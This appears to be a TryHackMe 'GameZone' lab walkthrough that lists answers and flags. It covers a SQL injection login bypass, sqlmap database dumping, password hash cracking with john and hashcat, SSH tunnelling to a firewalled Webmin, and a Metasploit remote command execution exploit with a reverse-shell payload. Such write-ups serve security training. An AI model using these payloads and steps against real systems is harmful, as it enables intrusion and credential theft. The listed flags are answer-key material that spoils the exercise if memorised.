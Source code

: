 # GameZone Wlakthrough
### Link
- https://tryhackme.com/room/gamezone
------------------------
- What is the name of the large cartoon avatar holding a sniper on the forum?
	- **Answer** : Agent 47 (main character of the videogame HITMAN)
- Obtain access via SQLi
	- Use ' or 1=1 -- - as your username and leave the password blank.
	- **Answer** : portail.php
- Using SQLMap
	- Intercept the request from portail.php by using BurpSuite
	- Save the request in text file
	- We can then pass this into SQLMap to use our authenticated user session.
		SQLMap option:
			-r uses the intercepted request you saved earlier
			--dbms tells SQLMap what type of database management system it is
			--dump attempts to outputs the entire database
		sqlmap -r request --dbms=mysql --dump

	- In the users table, what is the hashed password?
	    - **Answer**: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
	- What was the username associated with the hashed password?
		- **Answer**: agent47
	- What was the other table name?
		- **Answer**: post
- Cracking a password with Johntheripper
	John option:
			hash.txt - contains a list of your hashes (in your case its just 1 hash)
			--wordlist - is the wordlist you're using to find the dehashed value
			--format - is the hashing algorithm used. In our case its hashed using SHA256.
	john hash.txt --wordlist=[path the wordlist] --format=Raw-SHA256


- Cracking with hashcat

	sudo hashcat -m 1400 [path to hash file] [path to wordlist] --force
	- What is the de-hashed password?
		- **Answer**: videogamer124
	- What is the user flag?
		- **Answer**:649ac17b1480ac13ef1e4fa579dac95c

- Exposing services with reverse SSH tunnels
	- How many TCP sockets are running? 
	- execute the command : ss -tulpn
	    - **Answer**: 5

	
We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run ssh -L 10000:localhost:10000 <username>@<ip>

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

- What is the name of the exposed CMS?
	- **Answer**: webmin

- What is the CMS version?	
	- **Answer**:1.580


- Privilege Escalation with Metasploit
	- start metasploit
	- search exploit undr the metasploit db
		- search webmin
		- Select the Remote command execution -->  0  exploit/unix/webapp/webmin_show_cgi_exec
		- use [exploit number]
		- check settings : show info
			- We need to set PASSWORD / USERNAME / RHOST / RPORT	
				- set PASSWORD videogamer124
				- set USERNAME agent47
				- set RPORT 10000
				- set RHOST localhost (we target the localhost not the IP)
				- set ssl false (we are connecting to  port than 80) 	
			- show payloads
				- set payload cmd/unix/reverse
				- set lhost [local machine IP]
			- Execute the payload
				- run
			- access to the session in background
				- sessions 1
			- find the flag
				 - **Answer**:a4b945830144bdd71908d12d902adeee